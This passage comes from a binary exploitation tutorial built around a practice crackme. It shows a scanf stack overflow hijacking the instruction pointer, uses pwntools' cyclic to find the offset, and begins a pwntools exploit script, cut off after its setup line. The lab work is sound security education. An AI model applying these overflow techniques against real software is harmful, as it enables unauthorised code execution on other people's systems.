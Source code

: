 And its source code simply looks like:

  main() {
    char s1[16];
    ...
    scanf("%s", &s1);
    ...
  }

By injecting a long enough input, we could hijack its control flow
in the last tutorial, like this:

    $ echo AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ > input
    $ ./crackme0x00 < input
    $ dmesg | tail -1
    [238584.915883] crackme0x00[1095]: segfault at 48484848 ip 0000000048484848 sp 00000000ffffd6a0 error 14


1. Learning PwnTool
===================

In fact, PwnTool provides a convenient way to create such an input,
what is commonly known as a "cyclic" input.

    $ cyclic 50
    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Given a four bytes in a sequence, we can easily locate the position
at the input string.

    $ cyclic 50 | ./crackme0x00
    $ dmesg | tail
    [24728.073646] crackme0x00[15085]: segfault at 61616168 ip 0000000061616168 sp 00000000ffffd6a0 error 14

    $ cyclic -l 0x61616168
    28

    $ cyclic --help
    ...

Let's write a python script by using pwntools.

------------------------------------------------------------
exploit1.py
------------------------------------------------------------
#!/usr/bin/env python2

# import all modules/commands from pwn library
from pwn import *

# set the context of the target platform
#  arch: i386 (x86 32bit)
#  os: linux
context.update(arch='i386', os='linux')

